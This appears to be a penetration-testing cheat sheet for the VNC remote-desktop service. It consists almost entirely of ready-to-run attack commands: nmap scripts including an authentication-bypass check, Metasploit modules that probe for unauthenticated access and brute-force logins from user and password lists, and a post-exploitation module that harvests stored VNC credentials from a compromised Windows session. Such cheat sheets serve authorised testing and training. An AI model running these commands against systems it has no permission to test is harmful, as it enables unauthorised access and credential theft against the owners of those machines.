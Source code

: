 # VNC

% vnc, 5800, 5801, 5900, 5901

## vnc - nmap enum
```
nmap -sV --script vnc-info,realvnc-auth-bypass,vnc-title -p <port> <ip>
```

## vncviewer - connect to vnc no pass
```
vncviewer <ip>::<port>
```

## vncviewer - connect to vnc with password
```
vncviewer -password <password.txt> <ip>::<port>
```

## vnc msf test none auth
```
msfconsole -x "use auxiliary/scanner/vnc/vnc_none_auth; set RHOSTS <ip>; set RPORT <port>; run"
```

## vnc - msf test login bf
```
msfconsole -x "use auxiliary/scanner/vnc/vnc_login; set RHOSTS <ip>; set RPORT <port>; set USERNAME <username>; run"
```

## vnc - msf test login bf (2)
```
msfconsole -x "use auxiliary/scanner/vnc/vnc_login; set RHOSTS <ip>; set RPORT <port>; set USER_FILE <users_file>; set PASS_FILE <pass_file>; run"
```

## vnc - post exploit retreive credentials
```
msfconsole -x "use post/windows/gather/credentials/vnc; set SESSION <session>; run"
```
